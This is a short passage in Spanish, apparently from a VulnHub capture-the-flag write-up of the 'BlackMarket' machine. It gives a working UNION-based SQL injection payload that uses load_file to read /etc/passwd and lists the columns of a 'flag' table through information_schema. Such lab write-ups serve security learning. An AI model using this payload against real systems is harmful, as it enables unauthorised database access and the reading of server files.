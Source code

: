 ![](/assets/images/vh-writeup-blackmarket/22.png)

Tambien podemos probar si podemos ver el `/etc/passwd` con `load_file`

```bash
-1' union select 1,2,load_file("/etc/passwd"),group_concat(column_name),5,6,7 from information_schema.columns where table_schema='BlackMarket' and table_name='flag'-- -
```

Y si podemos
